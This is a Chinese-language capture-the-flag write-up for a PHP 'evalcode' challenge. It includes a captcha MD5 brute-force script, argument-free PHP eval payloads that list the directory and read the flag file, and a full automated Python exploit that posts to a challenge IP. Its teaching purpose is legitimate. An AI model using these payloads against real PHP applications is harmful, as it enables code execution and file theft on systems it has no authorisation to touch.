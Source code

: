 # evalcode
## 考察知识点：
### 1.无参数代码执行

## 1.爆破验证码
```
import hashlib
for x in range(1,300000):
    string=str(x)
    md5 = hashlib.md5(string.encode('utf-8')).hexdigest()
    cap='65a3'
    if(md5[0:4]==cap.lower()):
        print(string)
```

## 2.根据题目提示执行代码

`system('ls');`

![image](images/69A09DA695054E4EAB986A79F3F643D5evalcode1.png)

根据返回提示知道为无参数代码执行，参考bytectf boringcode

## 3.查看phpinfo页面

![image](images/032A041F49E04722A55876AC7B888182evalcode2.png)

disable_function模块无任何函数限制。

### 4.目录探测

payload:`var_dump(scandir(current(localeconv())));`

![image](images/030A3F34BB484731BC290C3049C8FADCevalcode3.png)

### 5.falg应该在the_flag.php文件中，构造payload读取倒数第二个文件：

`readfile(next(array_reverse(scandir(getcwd()))));`

![image](images/763B9A2AA256482CBAF06E217A7D4F72evalcode4.png)

成功读取flag。

payload，函数简单讲解：

getcwd():获取当前目录

scandir():列出指定路径中的文件和目录

array_reverse()：返回顺序相反的数组

next():将数组指针向前推一步，然后返回元素值

readfile(): 文件读取


## 这个题有多种解法
### 法二：http头

参考文章：

https://xz.aliyun.com/t/6316

![image](images/3365BECB88C546558068FC5A392D6ADEevalcode5.png)

### 大佬们甚至写出了全自动脚本

给脚本加一些注释膜一下

```
# coding=utf-8
# 计算一个值的md5值，使他的前四位==验证码

import hashlib
import requests
import re
import random

from sympy import group

url = "http://148.70.59.198:34386/"

# http头
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'PHPSESSID=0b1cc21e734a29e8b4f881e0cf548b42'
}


def get_cap():
    # 获取页面的验证码
    req = requests.get(url=url, headers=headers)
    text = req.text

    # 搜索页面中的验证码,采用（.*？）匹配
    cap1 =re.search("substr\(md5\(\$captcha\),0,4\) =='(.*?)'",text)
    # 取搜索到的第一个值
    cap =cap1.group(1)

    # 爆破验证码
    mad5_value = ''
    x = ''

    # 将获取到的验证码与md5加密的随机数比较，知道md5值得前四位与验证码相等时，返回随机数
    while cap != mad5_value:
        x = str(random.random())
        mad5_value = hashlib.md5(x.encode('utf-8')).hexdigest()[0:4]

    return x


def test(payload, cap):
    data = 'payload={0}&code={1}'.format(payload, cap)
    text = requests.post(url=url, headers=headers, data=data).text
    return text


if __name__ == '__main__':
    payload = 'readfile(next(array_reverse(scandir(getcwd()))));'
    response = test(payload, get_cap())
    print(response)

# 构造数据包发送请求
```